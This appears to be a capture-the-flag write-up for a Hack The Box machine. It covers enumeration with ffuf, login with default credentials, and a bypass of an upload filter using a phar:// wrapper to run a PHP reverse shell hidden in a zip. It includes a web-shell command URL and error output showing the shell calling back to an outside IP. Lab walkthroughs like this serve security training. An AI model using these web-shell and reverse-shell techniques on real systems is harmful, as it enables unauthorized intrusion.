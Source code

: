 1, enumerate the ports and services 
22/tcp ssh
80/tcp http
2222/tcp ssh(in this place, it would be wired)

2,enumerate the pages and web services 
by using the default credit 'test:test', we can just login and check these tickets.

by using FUFF, we can check the useful urls or services
```
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 21ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 22ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 23ms]
admin.php               [Status: 200, Size: 46, Words: 7, Lines: 4, Duration: 24ms]
api                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 23ms]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 23ms]
index.php               [Status: 200, Size: 3120, Words: 291, Lines: 40, Duration: 54ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 19ms]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 12ms]

```

In this place, /admin.php and /uploads would be very attractive and we need to check the versions or vulners.

Firstly, when we go to /admin.php, it redirect us to the /login.php. So we just login and use the /uploads to check our web shells or make reverse shell.

`http://itrc.ssg.htb/uploads/test.php?cmd=pwd`

So we can also try to upload the reverse shells to get www-data shell for us.

In this place, we have known it only accept the zip archive, so we want to try to just upload the php file by using the burp
But unluckily, we cannot only pass the front-base, there is still some restriction in the back-base.
So let's try to execute our shell by other way.
Fristly, we have find it needs use "page=?" to get the special page .
So let's try to use it.
But it didnot work.

We have known this is a php-web service, so there would be some other vulners
`phar injection`

Let's try it.
`http://itrc.ssg.htb/?page=phar://uploads/5984bdcb9365435330857c3ce5600055a6bb727c.zip/shell`

Then we get the error messages:
```
**Warning**: Undefined variable $daemon in **phar:///var/www/itrc/uploads/5984bdcb9365435330857c3ce5600055a6bb727c.zip/shell.php** on line **184**  
WARNING: Failed to daemonise. This is quite common and not fatal.  
**Warning**: fsockopen(): Unable to connect to 10.10.16.11:443 (Connection refused) in **phar:///var/www/itrc/uploads/5984bdcb9365435330857c3ce5600055a6bb727c.zip/shell.php** on line **100**  
  
**Warning**: Undefined variable $daemon in **phar:///var/www/itrc/uploads/5984bdcb9365435330857c3ce5600055a6bb727c.zip/shell.php** on line **184**  
Connection refused (111)
```
So let's get this shell !
